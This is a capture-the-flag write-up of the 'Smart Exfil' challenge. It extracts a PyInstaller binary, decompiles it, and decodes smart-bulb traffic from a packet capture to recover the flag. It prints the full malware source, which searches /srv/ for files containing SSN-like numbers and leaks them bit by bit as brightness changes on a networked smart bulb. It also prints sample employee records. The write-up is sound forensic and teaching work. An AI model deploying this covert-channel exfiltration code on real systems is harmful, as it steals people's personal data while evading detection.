

# Smart Exfil

This was a challenge that was part of the [UND CyberHawks National CTF Competition](https://blogs.und.edu/cem/2024/07/registration-now-open-und-cyberhawks-national-capture-the-flag-ctf-competition/), which was hosted through the [MetaCTF](https://app.metactf.com/) platform, and frankly had a really long title for a mid CTF. My friend and I showed up and played as a team of 2 in a 4-person-team competition and we did pretty well actually! We got 2nd in the pre-qualifiers and 5th in the finals (the finals was much more time constrained, qualifiers was over the course of a whole week and we just got to challenges pretty quick). All in all, a good time and not too hard of challenges. This is the only one I thought was worth writing up about.

### Description

I don't remember, it's been a while lol.

- [logs.pcap](./logs.pcap)
- [nothing_to_see_here](./nothing_to_see_here)

### Solve

This challenge used a lot of tooling I had never seen before and had a really neat solution, so I decided to do a writeup about it. Opening the pcap reveals a *lot* of network traffic that looks normal.

Starting off running strings on the binary, we get a lot of strings noting that Python had something to do with this:
```
Failed to execute script '%s' due to unhandled exception!
_MEIPASS2
_PYI_ONEDIR_MODE
_PYI_PROCNAME
Cannot open PyInstaller archive from executable (%s) or external archive (%s)
Cannot side-load external archive %s (code %d)!
LOADER: failed to set linux process name!
/proc/self/exe
ld-%64[^.].so.%d
Py_DontWriteBytecodeFlag
Py_FileSystemDefaultEncoding
Py_FrozenFlag
Py_IgnoreEnvironmentFlag
Py_NoSiteFlag
Py_NoUserSiteDirectory
Py_OptimizeFlag
bpydantic/json.cpython-310-x86_64-linux-gnu.so
xpython_kasa-0.5.3.dist-info/LICENSE
```

One such string is `PYINSTALLER_STRICT_UNPACK_MODE` (or other strings denoting that the binary used pyinstaller). Pyinstaller is essentially a packer that packs python files into a binary to be run on a system. This means that there was originally a Python file that made this file... is there a good way to get that out? Luckily, some kind soul on the internet did the hard work of setting up an extractor for us. The tool is called [`pyinstxtractor.py`](https://github.com/extremecoders-re/pyinstxtractor) and it's a single python file that can extract the `.pyc` file(s) from a binary. You run it using:

```sh
╰─ ❯❯ python pyinstxtractor.py nothing_to_see_here
[+] Processing nothing_to_see_here
[+] Pyinstaller version: 2.1+
[+] Python version: 3.10
[+] Length of package: 10099053 bytes
[+] Found 77 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: pyiboot01_bootstrap.pyc
[+] Possible entry point: pyi_rth_inspect.pyc
[+] Possible entry point: pyi_rth_pkgutil.pyc
[+] Possible entry point: pyi_rth_multiprocessing.pyc
[+] Possible entry point: smart_exfil.pyc
[!] Warning: This script is running in a different Python version than the one used to build the executable.
[!] Please run this script in Python 3.10 to prevent extraction errors during unmarshalling
[!] Skipping pyz extraction
[+] Successfully extracted pyinstaller archive: nothing_to_see_here

You can now use a python decompiler on the pyc files within the extracted directory
```

It outputs a lot of files in an extracted directory (`nothing_to_see_here_extracted`), and inside those there are a lot of python files that are necessary at runtime and one more that is custom, as indicated by the output: `smart_exfil.pyc`. Now that we have a pyc file, we can get the original Python using an online too. My personal tool of choice is [PyLingual](https://pylingual.io), since they support more recent Python versions than just about anything else. Throwing the pyc into there outputs us a usable Python file that we can use to determine what that pcap contains!

```py
# Decompiled with PyLingual (https://pylingual.io)
# Internal filename: smart_exfil.py
# Bytecode version: 3.10.0rc2 (3439)
# Source timestamp: 1970-01-01 00:00:00 UTC (0)

import os
import re
import zlib
import kasa
import asyncio
import time
import subprocess
to_send = b''

def pack(item, message):
    return b'--' + item.encode('utf8') + b'--' + zlib.compress(message.encode('utf8'))
to_send += pack('uname', subprocess.run(['uname', '-a'], stdout=subprocess.PIPE, text=True).stdout)
for root, _, files in os.walk('/srv/'):
    for filename in files:
        if filename.endswith(('.txt', '.csv', '.sql')):
            p = os.path.join(root, filename)
            with open(p, 'r', encoding='utf8') as f:
                content = f.read()
                if re.search('\\b\\d{3}-\\d{2}-\\d{4}\\b', content):
                    to_send += pack(filename, content)

async def exfil(data):
    devices = await kasa.Discover.discover()
    bulb = None
    for addr, d in devices.items():
        await d.update()
        if d.device_type == kasa.DeviceType.Bulb:
            bulb = d
            break
    await bulb.update()
    await bulb.turn_on()
    i = 0
    for byte in data:
        if i % 10 == 0:
            print(str(i) + '/' + str(len(data)), round(100.0 * i / len(data), 1))
        i += 1
        c = 0
        for bit in format(byte, '08b'):
            time.sleep(0.05)
            await bulb.set_hsv(45 * c, 100, 100 if bit == '1' else 0)
            c += 1
s = time.time()
asyncio.run(exfil(to_send))
print(time.time() - s)
```

This is a neat script! It uses a special smart light Python library to find a light on the network and then turn it on and off for each bit in the binary data that it packs from the system. This means that if we can find this data in the pcap, we can turn it back into binary and get the files from the system, which probably contain the flag! Wireshark is actually nice enough to translate that data for us in the GUI application:



It appears `bulb.set_hsv(45 * c, 100, 100 if bit == '1' else 0)` is working, and the brightness is being set high for 1's and low for 0's, so we can use that to extract the original data! We can apply a quick filter (`((ip.dst == 10.10.12.20) && (ip.src == 10.10.12.21)) && (_ws.col.protocol == "TPLINK-SMARTHOME/JSON")`), ctrl+a, copy paste that into a blank file, do some find replace magic to just get the brightness values, one more find and replace to get a comma separated list of 0's and 1's, and it's ready to go into Python. A really quick script is enough to get us the basic data we need:

```python
>>> arr = "<list of 0's and 1's>"
>>> arr2 = ''.join([str(i) for i in arr])
>>> from Crypto.Util.number import long_to_bytes
>>> long_to_bytes(int(arr2, 2))
b'--uname--x\x9c\xf3\xc9\xcc+\xadP\xc8M-IL\xca\xafP0\xd33\xd23\xd056\xd2MO\xcdK-\xcaLVP66\xaa3\x02\x8a\x99\xe8\x19\xea\x86&\x95\xe6\x95\x94*\x04\xfb\x06(\x04\x04\xb9\xba\xfa\x06\x84\xc4\xbbD\xfa9\xfaz:+\xb8\x15e*8\x96\xa6+\x18Z(\x18\x1aX\x99\x18X\x19\x1a+\x84\x868+\x18)TX\x98\xc5\x9b\x99\xa0Q\xee~\xa1\xfa> \x8b\xb9\x00=\x93#\x8f--employee_export.csv--x\x9cU\x91\xcdn\xdb0\x10\x84\xefy\n\xc2\x97^\x96\x82H\xfd\x90\xbc\xd9uc\xa0\xad\xdd\x02\x89\x81\x16\xbd\x08+\x99\x95\x98P\xa4A\xc9p\xed\xa2\xef^J\xb9D7\x0e\x07\xd8ov\x96\xa7\xa9(\x05<\xf6=\xc2\x01\xc3h\x9c\xbe\x83\x8e*\xe9\xd7\x9d\xfe\x83\xd6\x8c:1\x1e\x86\x8b\x1b\xbahN\x96T\xeb\x1bv\xde\'\x8d\xef\x81)IeN\xcb,\x17\xb0b<#\x07<[M\x9eG \xcf\xe7`\\\xfb\xdbh{\x02\xf2yOJ.\xd2|\x05\x0fE\xc9Ydn\x82A\xf8\xfe\xe1I\x1bko\x80Q%~\xc1|\xfb\n\xb3\x9f\xf3u\xdb\xa3\xb133\xe7)\x15%\x8ds"S\x95\x19y\xd2\xa7\xab\xf7\'\xb2w\x91\x8a\x8e\xec\x02\xba\xc6\x0c\x8d\x07\xb2\xdd\x10\x95\xb34[\xc1A\x8f\xb8=\xee\xfe\xd6\xc1\xb4\xddX\xd5\xd6\xb8\xd7\x98\xaf\xaa/\xb6\xae\xea\xa0\xb1\xe9\xf4\xf0\xefA\xb0B\xe6\x1c\xbe`\xf3:x\x07\x1f\x83\xbf:xySI\xbd\x08\xf8ROf\x8b\xbd\x0e\xef\x1a)2F\xa5\xa2\xb2,$\xac\xa4\xc8\xc9\x0f\xb4\xee2\x92\xad\t@>\xa1\xb58\x009\xfe$\xa2\xe0)\x8bu\xc8B\xb1L\xc2\xb6\xb3^\xc3/\xd3\xc7i=:h&\x9d\xdc\x17\xc0\xe6^M7\x1aF\xd3,\xea\xc8\xa8R4\x06\x8fupV(r\xd0x\xf2\xd7\xb9\x8e#\xf6g\x04\xb2\xdb\x93,+S\x1eyJ*\xc98<\x8e]\xa4|k/7\xed@O"q\x0b\x98\x9b\xadj\xb6\xa4|\xbf\xa0,\xa9\x90\x94\t\x91G^\x91K\xb2\xf58\x8ch\xe7\xabo\\\xd3\xf9\x80\xad\x8e\xcf\xafD\xa9b^\xf2?]\xa8\xc2r'
```

But... that's not what I wanted to see? This actually took me a couple minutes, but the data in the `pack()` function in that python code is zlib compressed. So let's decompress it. `uname` we can ignore since that's the output of `uname -a`, but the `employee_export.csv` seems promising.
```python
>>> import zlib
>>> message = b'x\x9cU\x91\xcdn\xdb0\x10\x84\xefy\n\xc2\x97^\x96\x82H\xfd\x90\xbc\xd9uc\xa0\xad\xdd\x02\x89\x81\x16\xbd\x08+\x99\x95\x98P\xa4A\xc9p\xed\xa2\xef^J\xb9D7\x0e\x07\xd8ov\x96\xa7\xa9(\x05<\xf6=\xc2\x01\xc3h\x9c\xbe\x83\x8e*\xe9\xd7\x9d\xfe\x83\xd6\x8c:1\x1\
e\x86\x8b\x1b\xbahN\x96T\xeb\x1bv\xde\'\x8d\xef\x81)IeN\xcb,\x17\xb0b<#\x07<[M\x9eG \xcf\xe7`\\\xfb\xdbh{\x02\xf2yOJ.\xd2|\x05\x0fE\xc9Ydn\x82A\xf8\xfe\xe1I\x1bko\x80Q%~\xc1|\xfb\n\xb3\x9f\xf3u\xdb\xa3\xb133\xe7)\x15%\x8ds"S\x95\x19y\xd2\xa7\xab\xf7\'\xb2w\x91\x8a\x8\
e\xec\x02\xba\xc6\x0c\x8d\x07\xb2\xdd\x10\x95\xb34[\xc1A\x8f\xb8=\xee\xfe\xd6\xc1\xb4\xddX\xd5\xd6\xb8\xd7\x98\xaf\xaa/\xb6\xae\xea\xa0\xb1\xe9\xf4\xf0\xefA\xb0B\xe6\x1c\xbe`\xf3:x\x07\x1f\x83\xbf:xySI\xbd\x08\xf8ROf\x8b\xbd\x0e\xef\x1a)2F\xa5\xa2\xb2,$\xac\xa4\xc8\x\
c9\x0f\xb4\xee2\x92\xad\t@>\xa1\xb58\x009\xfe$\xa2\xe0)\x8bu\xc8B\xb1L\xc2\xb6\xb3^\xc3/\xd3\xc7i=:h&\x9d\xdc\x17\xc0\xe6^M7\x1aF\xd3,\xea\xc8\xa8R4\x06\x8fupV(r\xd0x\xf2\xd7\xb9\x8e#\xf6g\x04\xb2\xdb\x93,+S\x1eyJ*\xc98<\x8e]\xa4|k/7\xed@O"q\x0b\x98\x9b\xadj\xb6\xa4|\
\xbf\xa0,\xa9\x90\x94\t\x91G^\x91K\xb2\xf58\x8ch\xe7\xabo\\\xd3\xf9\x80\xad\x8e\xcf\xafD\xa9b^\xf2?]\xa8\xc2r'
>>> zlib.decompress(message)
b'200767,Emma,Martinez,emma.m@hexalite.io,sunshineemma89@yahoo.com,198-84-6347,"123 Maple St, Springfield, IL 62704",\n562167,Aria,O\'Reilly,aria.o@hexalite.io,aria.oreilly42@gmail.com,420-76-5627,"963 Redwood Ln, San Francisco, CA 94103",MetaCTF{bright_blinking_bulb_breaches}\n715842,Jackson,Brown,jackson.b@hexalite.io,jbrowngamer@yahoo.com,531-89-8658,"874 Walnut Cir, Dallas, TX 75201",\n859138,Chloe,Zimmerman,chloe.z@hexalite.io,cz_artistic@gmail.com,423-99-7157,"2159 Meadow Ln, Tampa, FL 33602",\n989812,Ethan,Nguyen,ethan.n@hexalite.io,nguyen_ethan88@yahoo.com,586-78-1774,"2548 Coastal St, Anchorage, AK 99501",\n'
```

And that's the flag! I was actually the only solve on this challenge, which felt really nice, too. All in all, a neat combination of reverse engineering and network forensics :)

Flag: `MetaCTF{bright_blinking_bulb_breaches}`